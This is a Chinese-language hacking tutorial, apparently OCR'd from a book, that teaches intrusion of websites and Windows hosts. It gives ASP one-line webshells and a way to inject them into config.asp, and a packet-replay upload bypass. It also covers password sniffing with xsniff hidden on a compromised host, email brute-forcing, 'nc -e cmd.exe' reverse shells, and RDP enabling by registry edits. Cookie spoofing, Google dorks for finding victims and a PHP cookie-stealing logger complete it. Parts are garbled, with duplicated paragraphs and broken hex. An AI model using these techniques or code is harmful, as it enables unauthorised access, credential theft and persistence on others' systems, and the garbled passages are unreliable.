另一类网站是将网站配置没有存在数据库中，而是存放到独立的 ASP 文件中，如果过滤不严，也很容易得到一个 WEBSHELL；这里主要讲这个方法。假设一个网站，它的配置信息是写入`CONFIG.ASP`文件里，源代码如下：

```asp
<%
Const SiteName="黑客手册管理系统"
Const SiteTitle="欢迎使用管理系统"
%>
```

我们可以通过后台控制网站信息中的“网站名称”、“标题”这两项。插入一句话马到`CONFIG.ASP`文件里，直接在“网站名称”处插入`<%execute("pp")%>`。肯定是不行的，因为这个代码放到`CONFIG.ASP`文件中，和文件中的`</%`号在一起后会出错。

插入的总体思路是让一句话马在“网站名称”后正常解析，要实现这个目的，前端保证“网站名称”栏的正确（如果前面正确，自然无法解析），后闭合掉后面用的代码以防出错。我们可以在“网站名称”处写入“黑客手册管理系统”：`execute("pp")`，如图 31 所示。此时`CONFIG.ASP`文件中的内容变成了：

```asp
<%
Const SiteName="黑客手册管理系统" execute("pp") '网站名称
Const SiteTitle="欢迎使用" '
%>
```

以上代码，前面的“黑客手册管理系统”就使网站名称能正常解析，分号后跟的冒号作用相当于句号，表示完毕。“`execute("pp")`” 是一句话的代码，其后的分号注释掉了后面的内容，这样一句话就可以正常运行，这时连接`http://www.xxx.com/config.asp`，它成了我们的一句话马，如图 32 所示。


图 31


图32

以上就是主要的后台得到 WEBSHELL 方法，在实际的操作中会有变化，比如`config.asp`文件有很多方法，注意灵活运用。因为这些漏洞的存在，所以说后台通往 WEBSHELL 的路径。

## 什么是抓包上传

我们在浏览网页的过程中本质是客户端与服务端之间的数据包传递。浏览网页就是把包含文字、图片的数据包下载到本地，并且浏览器生成我们能看到；上传就是把本地图片转换成数据包提交到远程服务器，并被服务器保存。如果我们能对提交到远程服务器的数据包进行人为修改，自然也会影响到最后的结果。抓包上传就是一种技术。

抓包上传通常在网站上有图片上传和软件上传的位置，在有漏洞的前提下，使上传的 WEB 木马保存为 ASP 后缀，而不是图片或软件后缀（脚本木马如果保存为其他后缀将无法在服务器上执行）。抓包上传通常用到三个工具：

- 一个用来抓取数据包的 `Wireshark`
- 一个用来修改数据包的 `WinHex`
- 一个用来提交数据包的 `NC`


图33


图34

假设某网站有一处图片上传页面为`http://www.xxx.com/upfile.asp`（假定此处上传存在漏洞），首先将该链接复制到 IE 浏览器的地址栏中（一定要使用 IE 这种一个程序打开一个页面的浏览器，而不能类似腾讯那样一个程序打开多个页面的，那会使 `Wireshark` 无法抓取当前页面的数据包）。然后将一个 WEB 木马添加至上传文件里，点击“上传”，这时弹出“上传类型不正确，只允许 GIF、JPG 文件”或别的提示，如图 35 所示。


图35

这就说明此处对上传类型进行了验证，上传失败。没关系，我们尝试用抓包上传来绕过验证。打开 `Wireshark` 工具，点击左上方“打开文件”图标，在弹出的列表中选择标题为“HTTP://www.xxx.com/upfile.asp”页面的 IE 窗口。在 IE 浏览器中再次选择我们上传的 ASP 木马，这时仍会提示上传失败，但是切换至 `Wireshark` 会已经抓取了很多数据，如图 36 所示。


图36

我们需要的是关键字为 POST 的一行以及它下面的一行数据包，共计 2 行。将 POST 这行和它下方的数据包信息都复制粘贴到一个记事本里，注意在 POST 和它下方的数据包之间要空一行。

在记事本中最后保存的内容如下：

```
POST /upfile.asp HTTP/1.1

Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd/ms-excel, application/vnd/ms-powerpoint, application/msword, */*
Referer: http://www.nohack.com/upload.asp
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d72423bc14d8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Alexa Toolbar)
Host: www.hacktest.com
Content-Length: 405
Connection: Keep-Alive
Cache-Control: no-cache
COOKIE: ASESSIONID=ACBTSSS=PNCFFCPFNDIOAL;Cookies=0; BoardID=; upNum=0
```

段内的环境。数据在网络中的传播是以数据包的形式传递的，什么是抓包上传？我们在浏览网页的过程中本质是客户端与服务端之间的数据包传递。浏览网页就是把包含文字、图片的数据包下载到本地，并且浏览器生成我们能看到；上传就是把本地图片转换成数据包提交到远程服务器，并被服务器保存。

```asp
<%
Content-Disposition: form-data; name="FILE1"; filename="C:\muma.asp"
Content-Type: text/plain
execute("pp")
%>
```

```asp
Content-Disposition: form-data; name="FILE2"; filename=""
Content-Type: application/octet-stream
```

抓包上传就是一种技术。抓包上传通常在网站上有图片上传和软件上传的位置。代码中的`Content-Length: 405`增加了 5 个字符。修改后的代码是`Content-Disposition: form-data; name="FILE1"; filename="C:\muma.asp"`，这行表示该数据包长度。修改后的结果是`Content-Length: 410`。

```asp
<%
Content-Disposition: form-data; name="FILE1"; filename="C:\muma.asp"
Content-Type: text/plain
execute("pp")
%>
```

抓包上传通常用到三个工具：

- 一个用来抓取数据包的`Wireshark`
- 一个用来修改数据包的`WinHex`
- 一个用来提交数据包的`NC`


图31


图32

X_Sniffer 有以下参数：

- `-tcp`：输出 TCP 数据报
- `-udp`：输出 UDP 数据报
- `-icmp`：输出 ICMP 数据报
- `-pass`：过滤密码信息
- `-hide`：后台运行
- `-host`：解析主机名


- `-addr <IP地址>`：过滤 IP 地址
- `-port <端口>`：过滤端口
- `-log <文件名>`：将输出保存到文件
- `-asc`：以 ASCII 形式输出
- `-hex`：以 16 进制形式输出

```
USAGE: xsniff <Options>
<Options> means:
- -tcp: Output tcp packets
- -udp: Output udp packets
- -icmp: Output icmp Packets
- -pass: Filter username/password
- -hide: Run in background
- -host: Resolve IP address to hostname
- -addr <IP>: Output Packets when IP address equal to <IP>
- -port <Port>: Output Packets when port equal to <Port>
- -log <File>: Output to <File>
- -asc: Decode Packets to ASCII
- -hex: Decode Packets to HEX
Example:
xsniff.exe -pass -hide -log pass.log
xsniff.exe -tcp -udp -asc -addr 192.168.1.1
```

嗅探技术是很强大的，SNIFF 的条件是要同一个网段中，只能嗅探同一网关下的计算机。X_SNiffer 可捕获局域内 FTP/SMTP/POP3/HTTP 密码，这里我来简单解释一下，不必深究这几种协议的原理，只要记住：FTP 协议对应的是 FTP 服务，嗅探能得到 FTP 密码；HTTP 对应的是 WEB 浏览，嗅探能得到 HTTP 形式的密码，比如论坛账号和密码；POP3 和 SMTP 协议是邮箱使用的协议，嗅探能得到邮箱的账号和密码。


图39

## 第二章 黑客入侵常用技巧

其中主要的参数有 `-TCP`、`-PASS`、`-HIDE`、`-ADDR`、`-PORT`、`-LOG`。在网络中传输的数据包绝大部分是 TCP 形式的，一般就加 `-tcp` 这个参数就行了，`-UDP` 和 `-ICMP` 参数用得很少。

- `-PASS` 能帮助我们从嗅探到的信息中选出与密码相关的信息，这是一个很方便来嗅探的参数。有一些更专业的嗅探工具需要人工定义，或用批处理方式，从嗅探到的海量数据里面选出关于密码或其他的相关信息，这对于初学者是很难做到的，用这个参数可以自动完成筛选。

- `-ADDR` 参数是指定在内网中要嗅探的目标计算机的内网 IP 地址。比如你想对一台机子的内网 IP 地址为 `192.168.1.5` 的计算机进行嗅探，参数就是 `-ADDR 192.168.1.5`。

- `-PORT` 是指定要嗅探的端口。比如 FTP 的 21 端口或者是 WEB 常用的 80 端口，指定了端口后我们要嗅探的数据类型就更明确。比如一台机器上开着 21 端口和 80 端口，我们只想得到 FTP 的密码，那就只嗅探 FTP 对应的 21 端口即可，参数形式为 `-PORT 21`。

- `-LOG` 参数是把结果保存到一个文件里便于我们查看，参数形式为 `-LOG PASS.TXT`。

- `-HIDE` 是以后台方式运行。如果是在一台肉鸡上运行 `SNIPER` 工具，就要选中这个参数，以免被肉鸡发现。

最后整个运行的语句类似为：

```
sniff.exe -tcp -port 21 -hide -pass -addr 192.168.1.5 -log pass.txt
```

意思是：嗅探 IP 为 `192.168.1.5` 的计算机上的 `21` 端口的 TCP 数据中的密码信息，若不保存为 `PASS.TXT` 文件，嗅探工具以后后台隐藏方式运行。最后在 `PASS.TXT` 文件中能看到如图 40 所示的信息，其中就有嗅探得到的密码。


## 4. 邮箱密码破解

很多朋友都对破解邮箱感兴趣，今天就教大家如何破解邮箱。一般都是使用暴力破解的方法来暴力破解，这种方法在遇到弱口令的情况下，成功率颇高。但是暴破邮箱也有一定必要的条件，就是服务器没有对过多的出错尝试设定锁定阈值，即在尝试若干次后不会将此次账号冻结。如果服务器有此功能，将使我们的猜解所用时间大大延长，甚至变得几乎不可能被暴破。

暴破邮箱依赖于工具来实现，因为我们不太可能把字典文件中的账号密码一个个地手工填入后进行尝试。这里介绍使用的是溯鸟，这是最早的一代暴力破解邮箱工具，其功能强大，稳定性好。运行该工具后，在界面中主要分为五大块，如图 41 所示。

如果现在要破解一个邮箱的密码，首先进入邮箱登录页面，然后把链接地址复制进浏览器的地址栏，选择菜单“文件”—“URL 导入”功能，强制提取。这时在左下角会出现的地址栏，选择 `USER`、`PASSWORD` 的表单，如图42所示。


何为表单？简单地说表单就是把相关的输入项提交到服务器的元素，就好像一个个装载密码和用户名并运送到服务器的“集装箱”。

假设我们想探测用户 HACK 的密码，先在 `USER` 表单处输入“装置”，在“单元变量”处直接输入需要探测的内容，可以一次输入多个，中间用逗号隔，例如 pchecker、netfox、xiaoming 等等。我们探测的是 hack，所以输入 `nohack`，如图43所示。


`pass` 这个表单就是我们要破解的密码，双击 `pass` 表单打开配置框，密码这里是不知的，所以需要连接一个字典，选中“使用字典”设置，如图44所示。在字典中自带了几个字典，一般常见的弱口令都在其中，可以指定一个。


配置完成后需要提交测试，这一步很关键，其目的是为了测试工具的自动判断能力。我们是将出错页面的特征作为密码对或错的判断依据，提交测试后假设密码不对，页面上会返回“密码不正确”等字符，将这个特征符号提取出来作为判断的依据。如果提交后页面有这个字符，说明是错的密码，如果没有，说明密码正确，从而使软件能对密码正确与否作出判断。

点击菜单“运行”→“提交测试”，确信设置无误后就可以开始探测了。从菜单“运行”→“开始探测”，首先会出现保存的对话框，如图45所示。


“只探测一次”这个选项通常要选，以节省时间。确定之后选择一个标志，一般将 `<span>nohack</span>` 这个标记字符复制进去。一切准备好就可以探测，如果探测成功，会出现结果，如图46所示，将结果升序排列，一个个尝试直至正确。


## 15 如何进行反向连接

反向连接是黑客使用中很有效的一种，为什么要反向连接？在我们的网络安全中，常常遇到一种情况，就是对方有防火墙使得我们不能连接。为了解决这个限制，我们可以采用反向连接，即让对方主动连接，这是一个非常方便的做法。

假设我们现在拿到了一台服务器的 Web Shell，对其进行反向连接，首先可以测试一下服务器是否有过滤。使用工具在自己的计算机上执行命令 `NC -vv -p 80`，然后在 Web Shell 上执行 `NC -vv 你的IP地址 8000`。如果能够反向连接，机会收到类似 `connect to 23.54.93.10 from 219.xx.124.248` 的信息，如图47所示。

```
E:\hacksoft\nc>nc -vv -p 8000
listening on [any] 8000 ...
connect to 23.54.93.10 from 219.22.124.248
```

`23.54.93.10`这个位置的 IP 地址显示的是你自己的 IP，`219.22.124.248`这个位置显示的是肉鸡的 IP。如果出现这个回显，说明反连是成功的。如果没有反连成功，可以尝试把本地端口换一下，比如换成 80、1433 试试。`NC` 的本地监听命令改为 `nc -vv -p 80` 或 `nc -vv -p 1433` 即可。因为有时服务器做了严格限制，只允许连接特定的端口，所以尝试一下变换。

要把一个 Shell 反连到本地计算机，我们就能对肉鸡进行操作。`NC` 中自带了一个非常强大的命令，就是把 `CMD.EXE` 反连到远程主机，我们在肉鸡上执行这个命令，就可以把肉鸡弹弹到本地计算机上。我们在这个 Shell 中执行的命令，就相当于远程主机上执行的一样。使用这个命令之前，还要本机上运行监听命令 `nc -vv -p 8000`，如图48所示。

```
D:\hacksoft\nc>nc -vv -p 8000
listening on [any] 8000 ...
connect to 23.54.93.10 from 219.22.124.248
Microsoft Windows XP [版本 5.1.2600]
<C> 版权所有 1985-2001 Microsoft Corp.

D:\>dir
驱动器 D 中的卷没有标签。
卷的序列号是 5023-9A9B

D:\ 的目录
2004-09-14  15:23            1,349 0007AFEC.key
2008-05-28  02:49           36,297 1.asp
```

在肉鸡上执行 `nc -e cmd.exe 你的IP 8000`，这样就把肉鸡的 `CMD` 反连到了你的计算机上，在这个反弹的 `NC` 窗口中输入任何命令都会在远程的肉鸡上得到执行。

除 `NC` 外，还有 `LC` 也是比较常用的反向连接工具。该工具不仅可以转发 `cmd`，还可以转发 3389 远程服务等，使用方法是在本机 B 上监听 `-listen 51 3389`，在肉鸡 A 上运行 `-slave 本机ip 51 肉鸡ip 3389`，如图49所示。

```
[+] Listening port 51 ......
[+] Listen OK!
[+] Listening port 3389 ......
[+] Listen OK!
[+] Waiting for Client on port:51 ......
[+] Accept a Client on port:51 from 219.xx.124.248 ......
[+] Waiting another Client on port:3389...
```

在本地打开远程桌面登录工具，再连接 IP `127.0.0` 就可以连上肉鸡。其过程是肉鸡主动连接本机，将远程主机的 51 端口和本机的 51 端口建立隧道，转发到肉鸡。这样在本地连时，就是转发到了肉鸡。

## 16 怎样打开3389远程服务

3389通常俗称远程桌面，我们能像使用QQ的远程协助一样去操作计算机，是非常方便的。远程桌面的客户端位于“开始”-附件”-“远程桌面”，如图50所示。


打开后很简单，输入远程主机的IP即可，如图51所示。开启3389的方法很多，开启远程服务的前提是先建立管理员账号，否则无法开启。


连接上远程主机之后，需要用户名和密码才能登录，如图52所示。


获得了3389也就宣告攻破了一台主机，拥有了管理员权限。开启3389的方法多，总体并不难，但是需要管理员权限，否则无法开启。这里总结几种针对系统的方法：

- 方法一：工具开启（针对系统功能不同而有）。因为对开启3389的需求很大，许多工具应运而生，通常是一个小程序，上传至服务器后运行即可，如图53所示。

- 方法二：`inf` 开启（适用于 Windows2000）。打开记事本，编辑内容如下：

```
echo [Components] > c:\hehe
echo TSEnable = on >> c:\hehe
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\hehe
```


编辑好存为BAT文件，上传至肉鸡执行。这里注意的是要确定 `winnt` 是否在 c盘，如果安装在 D盘或E盘，此处的代码要做相应的修改。安装后需要重启肉鸡，重启可以用工具上传 winxp 系统中的 `shutdown.exe` 到 win2000 的系统目录下（`%systemroot%\Windows\system32\`），然后执行 `shutdown -t 30 -r`，或以 `taskkill` 命令结束所有的进程导致重启。

- 方法三：注册表键值修改法（适用于所有的系统）。Windows所有的配置信息都在注册表里有相关键值，改动这些键值也就达到了配置的目的，注册表修改法由此生。

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002

[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SecuService]
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,00,\
74,00,25,00,5c,00,53
```

## 第三章 黑客入侵用技巧


在本地过滤的一般都是采用 JavaScript 脚本或 VB 脚本过滤，我们可以在代码中查找这两个关键字符，此外还有 `<script>` 标记，说明此处是使用脚本的区域。查到这里还有一个小窍门，大家是不是看到刚才输入后弹出的警告框有一段提示吗？这一段字符是包含在过滤里的，通过这个信息很快找到过滤代码的位置。这几个都是主要的查找点，上面的源码中可以看到如下代码：

```
<script language=javascript>
function search(z){
    if (zjsearch.keywords.value==""){
        alert("请输入密码");
        zjsearch.keywords.focus();
        return false;
    }
    var j=zjsearch.keywords.value.indexOf("'");
    if (j!=-1){
        alert("禁止敏感字符");
        zjsearch.keywords.focus();
        return false;
    }
    document.zjsearch.submit();
}
</script>
```

这段代码对验证进行了过滤。现在知道了绕过它的验证，那就来绕过吧，思路是去掉这些过滤代码。但是代码量太多，对于看不懂代码的初学者来说很难的，这里再教大家一个思路：不要管哪些是要去掉的，只管哪些是要保留的。在整个代码中，`<form>` 就是提交的关键，把这一段保留下来，将地址补全就行。修改后，代码最后的如下：

```
<form id="zjsearch" name="zjsearch" action="http://www.xxx.com/admin/admin.asp" method="post">
    <p><input name="keywords"><input onclick="searchz(); type="button" value="提交" name="Submit2"></p>
</form>
```

请注意 `action=http://www.xxx.com/admin/admin.asp` 是访问时才有的 `admin.asp` 地址。把改好的 HTML 后台文件打开后输入用户名和密码，成功绕过脚本进入后台。

## 第二章 黑客入侵常用技巧


GOOGLE 搜索引擎在黑客中的作用，是能搜索和归纳有用的信息。GOOGLE 对网站链接进行分析，有时能提取不能在页面中访问到的链接或是隐藏的信息。巧妙利用 GOOGLE 这个工具能让我们的入侵之路变得顺利，主要的利用方法有以下几种：

1. 掌握了漏洞需要找到大量的网站来利用，在 GOOGLE 搜索栏中输入 `Powered by` 就可以搜到大量的版权信息，找到被修改的网站系统，如图 57 所示。


# 第三章 黑客入侵常用技巧

## GOOGLE 的利用


- 2. 在 GOOGLE 中输入 `intitle:后台管理` 能搜索网页标题中是否有我们要找的字符。如搜索时指定网站加上 `site` 参数，写成 `intitle:后台管理 site:www.xxx.com` 将返回所有网页标题中包含“后台管理”的网页。这一点很有用，可以尝试用来搜索目标后台，如图 58 所示。


- 3. 想判断网站采用的常见系统，可以使用特征文件定位。就是在网站系统中，找一个文件名特别的文件作为特征文件。比如找到该网站中一个名为 `o_pictree.asp` 的文件，其它网站可能不会这个文件，就搜索 `o_pictree.asp Powered by`，这样能搜索到包含此文件同时没有去除信息的网站，从中分析该网站使用的系统。

- 4. `filetype` 是非常有用的参数，它的作用是搜索目标网站中指定的内容。比如输入 `filetype:doc site:www.xxx.com` 将返回 `www.xxx.com` 中所有以 doc 结尾的文件链接，如图 59 所示。


- 5. 搜索我们指定的字符是否存在于 URL 中，例如输入 `inurl:admin`，将返回 N 个类似于这样的链接，与 `site` 参数结合用来搜索管理员登录的 URL 是不错的，如图 60 所示。


- 6. 搜索 `link:www.xxx.com` 可以返回所有和 `www.xxx.com` 做了链接的 URL。

- 7. 输入 `site:www.xxx.com` 将返回所有和这个站有关的 URL。重要的是有些 URL 是无法在网站的页面上找到的，这一参数常与一号和十号配合进行链接筛选。比如搜索出 `site:www.xxx.com asp` 的结果中，数百个包含 asp 的链接，如图 61 所示。比如有 `print.asp` 这个文件的链接，检测后发现该文件没有注入漏洞，想从结果中去除这个文件再进行筛选。我们这次输入 `site:www.nohack.com asp -print.asp`，这样就可以去掉原来的 `print.asp` 结果，然后通过逐步的排除，渐渐缩小搜索范围，很方便手工检测注入漏洞。


- 8. GOOGLE 还能进行随机的注入漏洞批量检测。在 GOOGLE 中输入 `asp?*=`，点击搜索，然后把地址栏中此时 GOOGLE 的链接后面也加上 `site:` 参数，指定仅检测与某一网站相关的内容。此外如果把 `http://www.google.cn/search?complete=1&q=newwindow=1&q=asp%3Fid%3D&btnG=Google%22` 放入注入工具的搜索框，工具就会从结果中获取链接进行扫描，如图 62 所示。


关于 GOOGLE 的利用主要就是这些方法，如果搜索的结果中没有得到信息或者返回无结果，不要灰心，只是该网站对 GOOGLE 搜索做了防护，可以去别的站试试，或许会给你惊喜。

## 如何进行注入

注入就是在一个网站的情况下，查找它处的其它网站，然后成功后跳转目标网站。这种做得比较好的一款工具，集成服务器查询，如图 63 所示。


运行程序后把目标域名在“输入域名”栏填入，点击右边的“>>”按钮，工具会把这个域名转换为 IP，再点击查询就会绑定的域名在左侧显示。没有工具的情况下，我们可以去查询出同 IP 的记录，通过网站 `http://neighbors.com`，只需要域名和验证码，然后按“submit”即可得到结果，如图 64 所示。


查询结果之后，一般先对其常规检测。常规检测就是上传地址、后台地址、默认数据库等信息的获取。这些地址有时能帮助我们入侵，比如上传漏洞、后台登录、默认数据库等情况下。还是使用工具，网站全部加入待检测项目。由于自动查询功能失效了，所以无法自动导入，只能通过“载入目录”手工添加，如图 66 所示。


工具界面下方有三个项目是逐一检测的：上传、数据库和后台。先选中“上传”，点击全选表示把待链接全选上，最后点击“开始检测”，如图 67 所示。


工具开始检测，一会儿就出来结果，点击“保存结果”，先把保存的结果保存备用。再把下方项至“数据库”，对默认数据库进行检测，方法和“上传”检测一样，最后也保存结果。检测“后台”的操作就不多说了。最后对照保存后的结果，接以前学过的方法，对上传漏洞、后台漏洞和数据库相关漏洞进行检测。


点击“批量分析注入点”，工具开始对所有站点的注入漏洞进行检测。如果是发现可能的注入点，会在最下方的框中以红色链接显示，如图 69 所示（注：此处OCR标记为69，但对应图片编号为137_3，此处按原文意图保留或根据逻辑修正）。


待扫描完成后双击链接，对其进行注入，注入的过程和普通工具一样，该工具把注入功能也整合到一起了。点击“SQL注入猜解”，再点击“开始检测”。如果是 ACCESS库，就猜解表得到管理员账号和密码，破解以后找到后台登录；如果是 MSSQL库，就直接导入目录后备份 Shell。此外该工具还整合有 MD5 暴破、数据库操作者功能，如图 70 所示。


通过该工具的运用，几乎可以完成整个注入，而不需要借助第三方工具。


## 后台备份数据库拿 Shell

后台备份数据库拿 Shell 是常用的方法，成功率也高，但是管理员也做了相应的防护，使我们备份 Shell 遇到不小的难度。这一节带动网 8.0 的备份 Shell 完整过程来说明怎么解决常见的障碍。先简单回顾一下常用的后台备份 Shell 过程：

- 1. 上传一个改后缀名为 gif 的 web 木马。这一步有几点变化先提出来讲：有的程序进行了文件内容过滤，只能上传 gif 文件，这种情况我们可以用脚本上传绕过；有的程序不仅过滤内容，还过滤后缀，连图片木马也无法绕过了，这种情况多半能上传 mdb 数据库文件。我们可以使用 Access 2000 建一个数据库，再建一个表和字段，字段里插入一句话木马，然后上传这个 mdb 文件完成绕过。

- 2. 找到上传木马的路径和文件名。方法也有很多，作为附件上传的，可以在附件上点右键通过属性看到文件名；有的可以列目录直接看到上传文件，还有需要用 Wireshark 抓包回显的保存文件名。

- 3. 在备份数据库或恢复数据库地址写入木马导出为 ASP。如果是备份数据库插马，风险不大，可以尽管尝试。需要的是数据库恢复地址，确保我们备份 Shell。

## 一个经典的 COOKIE 欺骗

有时我们得到了网站的 MD5 加密的密码和用户名，可是无法破解，这个时候可以尝试一下进行 COOKIE 欺骗，直接用 MD5 散列进后台，看着能否合成成功。

COOKIE 注入的成功率是比较低的，它需要同时具备两个条件：

- 1. 后台是使用 COOKIE 验证。我们可以从后台管理文件源代码中搜索关键字 `session`，如图 74 所示，如果有，说明使用的是 Session 验证，这种情况就无法使用 COOKIE 欺骗了。


图 74 所示，如果有，说明使用的是 Session 验证，这种情况就无法使用 COOKIE 欺骗了。

- 2. 要具有 COOKIE 验证方面的漏洞。这个判断比较复杂了，要有一定的脚本编程能力，结合代码的漏洞构筑相应的 COOKIE。作为菜鸟，只需要依靠第一条，通过源代码判断使用的 COOKIE 验证就该试试 COOKIE 欺骗进后台的方法。

不过现在对于 COOKIE 欺骗的利用方法都说得很详细，这一节就用一个例子来简单介绍 COOKIE 欺骗的利用方法。

我们通过注入只得到该网站的 MD5 散列 `21232f297a5dfd`，无论得到明文，同时该站的 COOKIE 验证存在漏洞，只要在 COOKIE 中把用户等级的参数 `adminidj` 的值设为 `1`，结合正确的 MD5 密码散列就可以直接进后台管理。

先用老兵 COOKIE 利用工具打开后台管理登录页面，如图 75 所示。


然后点击上面的按钮，在“Cookies”栏后的空白处加上 `adminidj=1; adminuser=%27or%27%27or%27; adminpass=21232f297a5dfd`，如图 76 所示。


> `%%27` 或 `%27%3d%27` 或 `%27%2f%27` 是 `'` 或 `''` 的 URL 编码格式，这些涉及到 COOKIE 语法，在构筑 COOKIE 内容时如果有特殊字符就要进行转换。另外，多个不同的 COOKIE 参数之间要用 `;` 号隔开。

输入完毕后，我们在地址栏中直接输入该整站后台首页文件名 `admin.index.asp`。刷新一次页面，会惊奇的发现我们已经进入了后台，如图 77 所示。


剩下的事就是利用备份数据库功能获取 WEBSHELL 了，如图 78 所示。


```asp
/data#db1.asp
Databackup
#db1.mdb
```

以上就是 COOKIE 欺骗的简单利用。由于它涉及到有针对性的寻找 COOKIE 验证的漏洞，需要经验来构筑 COOKIE 语句，对于初学者来说还属于比较难的黑客技术，这里只演示其利用过程。


## 一句话木马

一句话木马在入侵中发挥着巨大的作用，正是因为它小，所以在很多情况下得用它来搞定 WEBSHELL。比如你得到一个注入点要备份一个 WEBSHELL，首先使用的就应该是小马。因为小马在备份时不容易导致出错，而那种几十 KB 大小的大马将可能因为网络线路质量、脚本执行时间等原因出错；如果网站中进行过特殊符号过滤，我们就必须要对木马代码进行修改，而修改一句话木马也比修改一个正常的 WEB 木马的工作量要小得多。此外，如 `config.asp` 文件插马获得 WEBSHELL，数据库插马获得 WEBSHELL 等入侵手段，都只有小马能胜任，很难想象长达数十行的大马被写入 `config.asp` 文件或数据库后还能正常运行而不出错。

一句话木马不能像大的 WEB 木马一样有齐全的功能，它的作用只是用来上传大的 WEB 木马而已。当一句话木马被成功的写入 WEB 目录后，通过本地提交能很容易的上传大的 WEB 木马。

`<%execute request("123")%>` 这一行代码就是一句话木马，`123` 是连接密码，可以自己设置。将其存为 ASP 后缀文件，上传到网站上就能作用。比如小马的地址为 `http://www.xxx.com/jiu.asp`，先访问一下，试试写入成功？是否正常运行？访问完毕后如果出现如下：


说明写入成功，运行正常。现在开始用客户端把大马提交，大马的代码如下：

```asp
<form action="http://www.xxx.com/jiu.asp" method="post"><textarea name="123" cols="120" rows="10">
set IP=server.createObject("ADODB.Stream")
IP.Open
IP.Type=2
IP.CharSet="gb2312"
IP.Write request("jiu")
IP.SaveToFile "test5.asp"
IP.Close
set IP=nothing
response.redirect "test5.asp"
</textarea>
<textarea name="jiu" cols="120" rows="10"></textarea><br><center><input type="submit" value="提交">
```

这段代码中有几处要根据情况进行修改，将第一行的 `http://www.xxx.com/jiu.asp` 改为你小马的地址；将第二行的 `123` 处改为你的密码，点击“提交”就可以在网站下生成 `test5.asp` 文件。


将代码存为 HTML，打开后，在“jiu”处将一个 WEB 木马的代码复制里面。一切设置后点击提交，稍一会儿大马就上传了，并且会自动跳转到大马登录页面，如图 80 所示。


## 固定设置上网的方法

固定设置上网的方法介绍都在图形界面下面，在命令行设置网络，用到的是 `netsh` 命令，该命令可以对主机 IP、网关、DNS 等参数进行配置。我们需要建立两个脚本文件，然后把这个脚本文件写入到数据库主机上，接着通过 CMD 调用 `netsh` 执行这段脚本完成对网络设置的写。

先建立一个内容如下的文档，保存后缀为 `.sh` 的文件：

```sh
set address name="本地连接" source=static addr=192.168.1.2 mask=255.255.255.0
set address name="本地连接" gateway=192.168.1.1 gwmetric=1
```

此处保存为 `hack.sh`。解释一下这个设置中的参数：`address name` 后面是连接名；`addr` 是 IP 地址；`mask` 是子网掩码；`gateway` 是网关；`gwmetric` 是默认网关跃点数。你在入侵中分配的 IP 地址、网关等信息，需要分析服务器所处网络环境，具体情况分析后设置。然后通过注入点执行命令 `netsh exec hack.sh`，即将这个设置配置刷新。通过 `ipconfig -all` 命令可以看到网络设置已经改变，如图 85 所示，现在就可以尝试上传木马，看能否得到主机的 Shell 了。


## 注册为服务

很多好用的工具往往不支持以服务启动，下次重新启动后就不会再运行，例如 IRC 的反弹 Shell。其实我们能手工将其注册为服务，下次随计算机一起启动。系统服务跟以下几个注册表项目相关：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services
```

解释一下各个键值对应的含义：

- `DisplayName`：想要添加服务的名称

- `Description`：服务的描述

- `ImagePath`：程序的路径，可加入程序的参数

- `Start`：数值包括 0、2、3、4。2 代表自动启动；3 代表手动启动；4 代表禁用服务；0 代表系统对底层启动（一般不要这个）

- `ErrorControl`：一般为数值 1

- `Type`：数值是 10 或 20，一般应用程序都是 10，其它的 对应 20

- `ObjectName`：数值 `LocalSystem`，显示本地登录系统

把以上注册表内容存为 `hacktest.reg`，然后在 CMD 下执行 `regedit /s hacktest.reg`，将其导入注册表，两个服务就添加好了，如图 86 所示。


以上的添加方法适合 Windows XP 和 Windows 2003 操作系统。如果是 Windows 2000 操作系统则稍微麻烦一点，主要是指定程序路径时，将 `C:\Program Files\hack.exe` 路径转换成 `%43%3A%50%72%6F%67%72%61%6D%20%46%6C%65%73%5C%68%ack.exe`。十六进制之间用逗号隔开，最后的注册表结果如下：


```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SRVTEST]
"Type"=dword:00000010
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex:43,3A,50,72,6F,67,72,61,6D,20,46,6C,65,73,5C,68,ack.exe
"DisplayName"="SRVTEST"
"ObjectName"="LocalSystem"
"Description"="服务测试"
```

# 知识点：COOKIE盗取

Cookie 盗取通常和跨站漏洞结合起来。当目标存在跨站漏洞时，黑客放在其中的 Cookie 代码就会执行在另一个服务器上，Cookie 就发送到那里保存了下来。黑客分析后可以破解密码或者直接进入网站后台，因此 Cookie 盗取是一种重要的入侵思路。

在连接上按右键选择“属性”，再选择“网络”标签，然后“Internet Protocol (TCP/IP)”，在设置中更改设置。先看看 Cookie 的代码是怎样的，这里提供一段 PHP 代码作为参考：

```php
<?php
$info = getenv('QUERY_STRING');
if ($info) {
    $info = urldecode($info);
    $fp = fopen("test.txt", "a+");
    fwrite($fp, $info . "\n\n");
    fclose($fp);
}
?>
```

